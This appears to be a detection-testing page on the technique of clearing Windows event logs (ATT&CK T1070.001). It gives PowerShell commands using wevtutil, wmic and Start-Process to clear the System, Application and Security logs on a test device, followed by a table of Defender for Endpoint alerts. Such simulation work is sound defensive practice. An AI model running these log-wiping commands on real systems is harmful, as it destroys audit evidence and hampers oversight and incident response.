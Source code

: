 # Clear Windows Event Log

Clear Windows Event Logs is a technique where attackers delete records in Windows Event Logs to erase evidence of their activities. This action is part of the Defense Evasion tactic, as it helps attackers avoid detection by removing traces of their unauthorized actions from the logs, making it harder for security teams to investigate or respond to the intrusion.

## Simulation

Run the following commands in PowerShell as Administrator on a test device.

1. Direct wevtutil Commands
1. Using wmic
1. Using PowerShell Start-Process

### Direct wevtutil Commands

```powershell
wevtutil cl system
wevtutil cl application
wevtutil cl security
```

### Using wmic

```powershell
wmic process call create "cmd.exe /c wevtutil cl Application"
wmic process call create "cmd.exe /c wevtutil cl system"
wmic process call create "cmd.exe /c wevtutil cl security"
```

### Using PowerShell Start-Process

```powershell
Start-Process -FilePath "wevtutil" -ArgumentList "cl", "Application" -NoNewWindow -Wait
Start-Process -FilePath "wevtutil" -ArgumentList "cl", "System" -NoNewWindow -Wait
Start-Process -FilePath "wevtutil" -ArgumentList "cl", "Security" -NoNewWindow -Wait
```

> *Script*: [download](Invoke-EventLogSimulation.ps1)

## Detection

| Alert Title | Alert Description | Alert Details
| --- | --- | --- |
| Event log was cleared | An event log was cleared. This might indicate a malicious actor in the machine. |**Category :** Defense evasion<br/>**MITRE ATT&CK Techniques :** Sub-technique T1070.001<br/>**Service source :** Microsoft Defender for Endpoint<br/>**Detection source :** EDR<br/>**Detection technology :** Behavior,Network<br/>**Detection status :** Detected |
| Attempt to clear event log | A process attempted to clear the event log. An attacker might be trying to hide evidence of malicious activity. |**Category :** Defense evasion<br/>**MITRE ATT&CK Techniques :** Sub-technique T1070.001<br/>**Service source :** Microsoft Defender for Endpoint<br/>**Detection source :** EDR<br/>**Detection technology :** Behavior,Network<br/>**Detection status :** Detected |
